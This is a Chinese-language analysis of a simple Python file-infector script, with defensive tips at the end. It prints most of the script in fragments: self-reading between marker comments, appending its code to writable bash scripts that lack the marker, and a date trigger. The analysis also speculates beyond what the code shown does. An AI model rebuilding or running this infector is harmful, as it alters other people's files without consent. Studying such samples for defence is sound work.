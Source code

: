 py写的病毒脚本分析，后面加了一点防范方法

1. **初始化输出**：
   ```python
   print("123")
   print("abc")
   ```
   这两行输出内容是调试或测试用的，不影响病毒的传播逻辑。

2. **读取当前脚本内容**：
   ```python
   with open(__file__, 'r') as f:
       lines = f.readlines()
       mytxt = ''.join(lines[lines.index("#iamavirusA\n"):lines.index("#iamavirusB\n")])
   ```
   - `__file__` 是当前 Python 脚本的文件名。
   - 代码读取当前脚本内容，并提取从 `#iamavirusA` 到 `#iamavirusB` 之间的文本（包括这两个标记）。这些文本看起来是病毒的代码片段，`mytxt` 变量将包含病毒的有效部分。

3. **扫描当前目录中的文件**：
   ```python
   for f in os.listdir('.'):
       if os.path.isfile(f): 
           if os.access(f, os.W_OK): 
               with open(f, 'r') as file:
                   first_line = file.readline()
                   if first_line.startswith("#!/bin/bash"):
   ```
   - 这段代码循环检查当前目录中的所有文件。
   - 只有**普通文件**（`os.path.isfile(f)`）且具有**写权限**（`os.access(f, os.W_OK)`）的文件才会被处理。
   - 对于每个文件，脚本读取文件的第一行，检查它是否是一个 Bash 脚本（即文件的开头是否是 `#!/bin/bash`）。

4. **检查文件是否已经感染**：
   ```python
   with open(f, 'r') as file:
       content = file.read()
       if "iamavirus" in content[-100:]:
           print(" having virus already")
       else:
           with open(f, 'a') as file:
               file.write(mytxt)
   ```
   - 如果文件是 Bash 脚本，脚本将读取文件内容并检查最后 100 个字符是否包含 "iamavirus"（这是病毒的标识符）。
   - 如果已经感染（即病毒标识符存在），则输出 `" having virus already"`。
   - 如果没有感染，则将 `mytxt`（病毒的代码片段）附加到该 Bash 脚本的末尾，从而将病毒传播到该脚本中。

5. **非 Bash 脚本文件**：
   ```python
   else:
       print(" not bash script")
   ```
   - 如果文件不是 Bash 脚本，脚本则输出 `" not bash script"`，并跳过该文件。

6. **特定日期触发行为**：
   ```python
   if datetime.now().strftime("%m%d") == "1111":
       print("today git ddl")
   ```
   - 这段代码在每年 11 月 11 日（即 "1111"）触发。虽然代码没有提供详细内容，但可以推测它可能用于在特定日期（如 "1111"）执行某些特定的操作，比如连接到 Git 仓库、下载新的脚本、获取命令等。

### 行为分析

1. **病毒传播**：
   - **自我复制**：该脚本的主要功能是将病毒代码（`mytxt`）添加到 Bash 脚本中。病毒会检查当前目录下所有 Bash 脚本文件，并将自身代码插入到未感染的脚本中。这种自我复制行为使得病毒可以迅速传播。
   - **感染条件**：只有具备写权限的文件会被感染。这是为了确保脚本能够修改文件内容。脚本还检查每个文件的第一行是否为 `#!/bin/bash`，确保它只感染 Bash 脚本文件。

2. **文件感染检查**：
   - **避免重复感染**：该脚本会检查每个文件的最后 100 个字符中是否包含 "iamavirus" 字符串。如果已经感染，则不会再次写入病毒。这可以防止病毒在同一个文件中重复传播。

3. **日期触发**：
   - **日期触发操作**：在每年的 "1111"（即 11 月 11 日），该病毒将执行一些操作。尽管代码没有给出具体操作，但通常情况下，恶意脚本可能会在特定日期执行更为严重的操作（例如下载额外的恶意代码、执行远程命令等）。

4. **通过 Bash 脚本传播**：
   - **隐蔽传播**：通过将病毒代码注入到 Bash 脚本中，病毒可以隐蔽地传播到其他计算机和系统。如果该脚本被执行，它将自动执行病毒代码，并继续将病毒传播到其他 Bash 脚本。

5. **危险性**：
   - **未经授权的文件修改**：该脚本会修改 Bash 脚本文件，可能导致系统或应用程序行为异常，或者使系统运行不稳定。
   - **潜在的远程执行**：如果在特定日期执行了更严重的命令（例如，下载额外的恶意软件或发送数据），病毒可能会导致更大范围的感染或数据泄露。

### 如何防范

- **不要运行未知来源的脚本**：这种类型的恶意脚本依赖于用户运行它。因此，不要轻易运行从不明来源获取的脚本文件。
- **检查脚本文件内容**：特别是对一些脚本文件（例如 `.sh`、`.bash` 或 `.vbs` 文件），检查文件是否包含恶意的、异常的代码。
- **使用防病毒软件**：现代的防病毒软件通常可以检测并拦截这种类型的恶意脚本。

